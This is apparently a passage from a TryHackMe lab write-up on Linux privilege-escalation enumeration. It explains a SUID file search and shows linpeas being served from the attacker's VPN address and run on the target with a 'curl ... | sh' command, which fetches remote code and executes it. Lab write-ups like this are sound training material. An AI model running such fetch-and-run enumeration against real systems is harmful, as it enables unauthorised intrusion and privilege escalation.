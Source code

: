 ![[hatter-3.png|600]]

I checked the system for binary files that have the SUID/SGID bit set. I did not find any binary with unusual permissions.

```bash
# Find files that have SUID bit set and are owned by root
find / -perm -4000 -user root 2> /dev/null
```

`-perm`: Find files by their permission value  
`-user`: Find files by owner name

The expression `2> /dev/null` is used to redirect error messages into `null`. `null` is a special file on Linux that acts like a black hole destroying any data that is sent to it.

[What is /dev/null in Linux?](https://linuxhandbook.com/dev-null/)

![[hatter-4.png|400]]

By manually enumerating the system I was not able to find any exploitable file. So I downloaded `linpeas` which is a Linux Enumeration script that utilizes various tests to find misconfigured that can be exploited. 

I tried to download the script directly onto the target but it seemed like the target was not connected to the Internet. I downloaded the script onto my system and set up an HTTP server using Python. Then from my machine, I downloaded the file onto the target using `curl`.

```bash
# Download LinPeas
curl -LO https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh

# Python HTTP Server
python3 -m http.server 9000
```

![[hatter-5.png|500]]

The target machine is running on the TryHackMe network. We connected to this network using a VPN. To download the file from our system to the target system we have to use the IP address that has been assigned to our system by the VPN (`tun0` interface).

We can get the IP address of the VPN interface using the following command:

```bash
# List tun0 Interface
ip a l tun0
```

The value we require is listed under the `inet` section.

![[hatter-11.png|640]]

```bash
# Download file onto the Target
curl -L http://10.6.67.160:9000/linpeas.sh | sh
```

